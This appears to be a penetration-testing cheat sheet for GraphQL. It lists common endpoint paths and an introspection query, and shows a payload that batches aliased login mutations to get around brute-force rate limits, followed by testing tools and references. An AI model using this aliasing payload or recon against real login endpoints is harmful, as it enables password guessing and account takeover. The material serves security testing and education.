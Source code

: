 # GraphQL

## GraphQL Endpoints

/graphql/graphiql  
/graphql/graphiql.php  
/graphql/console  
/graphql.php  
/api/gql  

## Authentication

GraphQL implementation doesn’t require or enforce, any kind of authentication. This is up to the developer. Often the developers are in a hurry because of time limitations thus they postpone security-stuff.

## GraphQL Introspection

query {\n  __schema {\n    types {\n      name\n      fields {\n        name\n      }\n    }\n  }\n}

## Bypass Bruteforce Protections with "Aliasing"

A login form like this:  

```graphql
{
    "query":"
        mutation login($input: LoginInput!) {
            login(input: $input) {
                token
                success
            }
        }",
    "operationName":"login",
    "variables":{
        "input":{
            "username":"carlos",
            "password":"test"
        }
    }
}
```

becomes:  

```graphql
{
    "query": "
    mutation {
        bruteforce0:login(input:{password: \"123456\", username: \"carlos\"}) {
        token
        success
    },
    bruteforce1:login(input:{password: \"password\", username: \"carlos\"}) {
        token
        success
    },
    bruteforce2:login(input:{password: \"12345678\", username: \"carlos\"}) {
        token
        success
    }
    }"
}
```

Remove the operation name and variables.  
Also remove the `login($input: LoginInput!)` section beginning the mutation.  
Add an alias to the beginning of each subrequest - these can be used to correlate successful requests.  

## Tools

### GraphQL Raider (Burpsuite)

Makes GraphQL requests easier to view and modify.  

### InQL – Introspection GraphQL Scanner (Burpsuite)

HIGHLY RECOMMENDED  
Automates introspection queries and maps out all possible requests for easy copy-pasta into Repeater.  

Hacker’s One – Introspection and Parsing through InQL Scanner
GraphQL Voyager Visualizer Tool

Tool: https://ivangoncharov.github.io/graphql-voyager/

This tool allows for visualizing a GraphQL by providing the output of the introspection query. It is very useful, interactive and provides a special way of visualizing the data (like the phpMyAdmin’s database designer).
GraphQL Voyager


## Other Interesting Tools

    https://github.com/swisskyrepo/GraphQLmap
    https://github.com/andev-software/graphql-ide

## GraphQL References:

    https://raz0r.name/articles/looting-graphql-endpoints-for-fun-and-profit/
    https://medium.com/@ignaciochiazzo/introspection-in-graphql-a5a5bd744a66
    https://prog.world/pentest-applications-with-graphql/
    https://blog.doyensec.com/2018/05/17/graphql-security-overview.html
    https://raz0r.name/articles/why-you-should-not-use-graphql-schema-generators/#more-910
    https://devhints.io/graphql
    https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e
    https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql
    https://graphql.org/learn/queries/
